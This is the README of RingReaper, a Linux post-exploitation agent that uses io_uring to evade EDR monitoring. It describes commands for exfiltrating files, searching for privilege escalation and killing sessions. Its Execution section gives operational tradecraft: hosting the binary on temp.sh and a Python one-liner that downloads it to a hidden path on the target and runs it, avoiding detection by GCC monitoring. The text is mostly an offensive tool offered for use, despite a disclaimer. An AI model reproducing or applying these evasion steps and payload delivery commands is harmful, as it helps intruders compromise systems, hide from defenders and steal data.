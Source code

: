# RingReaper

![Dororo](https://i.imgur.com/Hrmpefq.gif)

**RingReaper** is a simple post-exploitation agent for Linux designed for those who need to operate stealthily, minimizing the chances of being detected by EDR solutions. The idea behind this project was to leverage **io_uring**, the new asynchronous I/O interface in the Linux kernel, specifically to avoid traditional system calls that most EDRs tend to monitor or even hook.

In practice, RingReaper replaces calls such as `read`, `write`, `recv`, `send`, `connect`, among others, with asynchronous I/O operations (`io_uring_prep_*`), reducing exposure to hooks and event tracing typically collected in a standardized way by security products.

> **NOTE:** Some functions within RingReaper still rely on traditional calls, such as directory reading (`opendir`, `readdir`) or symbolic link resolution (`readlink`), because io_uring **does not yet fully support** these types of operations natively. Even so, during my tests, these calls did not trigger alerts on the tested EDRs, precisely because they fall outside the monitored network I/O paths.

In summary, RingReaper was built to **avoid traditional calls as much as possible**, and even in cases where it had to use them, it demonstrated excellent evasion capabilities, with no alerts or detections from common security agents.

See the full and detailed article at:

https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/

## Command Reference

| Command       | Description                                              | Backend              |
|---------------|----------------------------------------------------------|----------------------|
| `get`         | Look files from the target                           | 100% io_uring        |
| `put`         | Upload files (uses `recv` on the agent side)             | 100% io_uring        |
| `users`       | List logged-in users by reading `utmp`                   | 100% io_uring        |
| `ss` / `netstat` | List TCP connections from `/proc/net/tcp`            | 100% io_uring        |
| `privesc`     | Search for SUID binaries using `statx`                   | 100% io_uring        |
| `ps`          | List processes (uses `opendir`, `readdir`)               | traditional calls + io_uring   |
| `kick`        | Kill `pts` sessions (uses `opendir`, `readdir`, `kill`, `readlink`) | traditional calls + io_uring |
| `me`          | Show PID/TTY (`getpid`, `ttyname`)                       | traditional calls + io_uring   |
| `selfdestruct`| Delete the current binary (uses `readlink`)              | traditional calls + io_uring   |
| `exit`        | Terminate connection and exit                            | 100% io_uring        |
| `help`        | Display help                                             | 100% io_uring        |

In RingReaper, all data traffic, including control commands, uploads, and downloads, must pass through io_uring. This also ensures that the most sensitive operations remain off the radar of hooks and EDR monitoring based on traditional calls.

## About Evasion

RingReaper was designed from the ground up to bypass EDR monitoring. Many security solutions base their detection triggers on intercepting classic syscalls (`read`, `recv`, `send`, `connect`) at the kernel level. Since `io_uring` is relatively new and less integrated into the telemetry pipeline of these products, it often goes unnoticed by most agents, allowing for C2 sessions and data exfiltration without triggering alerts.

Even functions that still rely on older syscalls (such as directory reading) remained discreet enough not to raise alarms.

## Requirements

- Linux kernel 5.1 or higher  
- `liburing` library  
- A compatible C compiler (tested with GCC)  

## Env

Tested **ONLY** on the following kernel versions below;

- 6.8.0-60-generic
- 6.12.25-amd64

## Compilation

```
sudo apt install liburing-dev -y
gcc agent.c -o agent -luring -O2 -s -static
```

## Execution

In testing, I noticed that EDR detected the compilation of `agent.c` by monitoring GCC usage in real time (it's better not to use wget/curl). To bypass this, I compiled the agent statically on my machine, sent the finished binary via `temp.sh` and used Python on the target to download and execute it. This technique worked without warning.

Server (Attack box) : 

- `curl -F "file=@agent" https://temp.sh/upload`
- `python3 server.py --ip IP --port 443` 

Agent (Target machine) :

- `python3 -c "import urllib.request,os,subprocess; u=urllib.request.Request('http://temp.sh/xxxx/stealth_agent',method='POST'); d='/var/tmp/.X11'; open(d,'wb').write(urllib.request.urlopen(u).read()); os.chmod(d,0o755); subprocess.Popen([d]);"`

## Contribution

Feel free to make pull requests and contribute to the project, which is initially just a simple POC.

## Disclaimer

This code was developed solely for educational purposes, research, and controlled demonstrations of evasion techniques. Any use outside authorized environments, or for malicious purposes, is strictly prohibited and entirely the responsibility of the user. Unauthorized or illegal use may violate local, national, or international laws.
